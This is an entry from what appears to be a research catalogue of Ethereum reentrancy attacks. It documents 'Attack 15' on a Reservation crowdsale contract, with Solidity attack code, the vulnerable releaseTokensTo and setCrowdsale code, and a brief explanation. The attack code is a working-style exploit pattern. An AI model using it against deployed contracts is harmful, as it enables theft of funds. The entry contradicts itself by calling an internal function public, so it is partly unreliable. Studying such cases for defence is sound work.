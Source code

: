 #########
Attack 15
#########

**Contract Name**

Reservation

**Contract Address**

0xf4861b23d0cbf1cf6a3ffb6fe3ac987e87fc1168

**Transaction Count**

1

**Invovled Ethers**

0 Ethers

**Length of the Call Chain**

1 internal function, 1 external function

**Victim Function**

``releaseTokensTo``

**Attack Mechanisim**

Attack code:
::

    contract Attack is UacCrowdsale{
        CrowdsaleBase c = new CrowdsaleBase();

        constructor() payable {}

        function prepare() {
            c.setCrowdsale(this);
        }

        function mintReservationTokens(address to, uint256 amount) public {   
            c.releaseTokensTo(this);
        }

        function() payable {}

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

    contract UacCrowdsale {}

Attacked code:
::

    contract CrowdsaleBase {
        ...
        function releaseTokensTo(address buyer) internal returns(bool) {
            require(validPurchase());

            uint256 overflowTokens;
            uint256 refundWeiAmount;

            uint256 weiAmount = msg.value;
            uint256 tokenAmount = weiAmount.mul(price());

            if (tokenAmount >= availableTokens) {
                capReached = true;
                overflowTokens = tokenAmount.sub(availableTokens);
                tokenAmount = tokenAmount.sub(overflowTokens);
                refundWeiAmount = overflowTokens.div(price());
                weiAmount = weiAmount.sub(refundWeiAmount);
                buyer.transfer(refundWeiAmount);
            }

            weiRaised = weiRaised.add(weiAmount);
            tokensSold = tokensSold.add(tokenAmount);
            availableTokens = availableTokens.sub(tokenAmount);
            mintTokens(buyer, tokenAmount);
            forwardFunds(weiAmount);

            return true;
        }

        ...

        function mintTokens(address to, uint256 amount) private {
            crowdsale.mintReservationTokens(to, amount);
        }

        function setCrowdsale(address _crowdsale) public {
            require(crowdsale == address(0));
            crowdsale = UacCrowdsale(_crowdsale);
        }

        ...

    }

In this case, the attacker can lauch reentrancy attack by calling ``crowdsale.mintReservationTokens(to, amount)``. We firstly reset the address variable ``crowdsale``. Then we need to call victim function ``mintTokens`` to start attack. This can not be done directly, since the function ``mintToken`` is a **private function** (i.e. this function can only accessed by self-functions). However, ``mintTokens`` is called in a **public function** ``releaseTokensTo``. If the attacker call the public function first, and pass all conditions until the call statement, he succeeds.

**Attack.** The attacker call ``prepare`` to reset the value of ``crowdsale`` then call ``mintReservationTokens`` to attack victim.